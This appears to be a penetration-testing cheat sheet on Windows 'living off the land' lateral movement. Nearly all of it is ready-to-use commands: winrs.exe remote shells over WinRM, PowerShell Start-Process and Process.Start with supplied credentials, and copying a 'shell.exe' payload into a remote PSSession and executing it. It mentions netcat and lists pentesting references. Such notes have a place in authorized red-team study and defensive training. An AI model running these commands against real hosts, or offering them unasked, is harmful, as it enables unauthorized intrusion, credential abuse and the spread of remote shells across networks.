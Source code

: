 # Living off the Land

## 01 - Command Prompt

- Using `winrs.exe` to laterally spawn shells via WinRM

```
C:\> winrs -remote:<IP> <commands>

C:\> winrs -r:http://<IP>/wsman <commands>

C:\> winrs -r:<IP> -ad -u:<username> -p:<password> <commands>
```

## 02 - Powershell

### 2.1 - Start-Process

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Start-Process -FilePath C:\path\to\shell.exe -NoNewWindow -Credential $credential -WorkingDirectory c:\users\public
```

You can pass arguments as well when using `netcat` for example

`PS C:\> Start-Process -FilePath <C:\path\to\program.exe> -NoNewWindow -Credential $credential -ArgumentList ("<arg1>","<arg2>","<arg3>") -WorkingDirectory C:\Users\Public`

### 2.2 - Authenticate Remotely

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)
$computer = "<IP>"
[System.Diagnostics.Process]::Start("<Commands>", $credential.Username, $credential.Password, $computer)
```

```powershell
PS C:\> $ip = New-PSSession -ComputerName <IP>

Copy-Item shell.exe -Destination "c:\users\public\" -ToSession $ip

icm -Session $ip -ScriptBlock {c:\users\public\shell.exe}
```

---
## References

- [Pentestlab Blog: Powershell Remoting](https://pentestlab.blog/tag/powershell-remoting/)

- [SS64 WinRS](https://ss64.com/nt/winrs.html)

- [Powershell Module New-CimSession](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2)

- [Powershell Module Get-CimSession](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/get-cimsession?view=powershell-7.2)

- [HarmJ0y PsRemoting.ps1](https://gist.github.com/HarmJ0y/4c37e43ba4865bdef2a8)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)
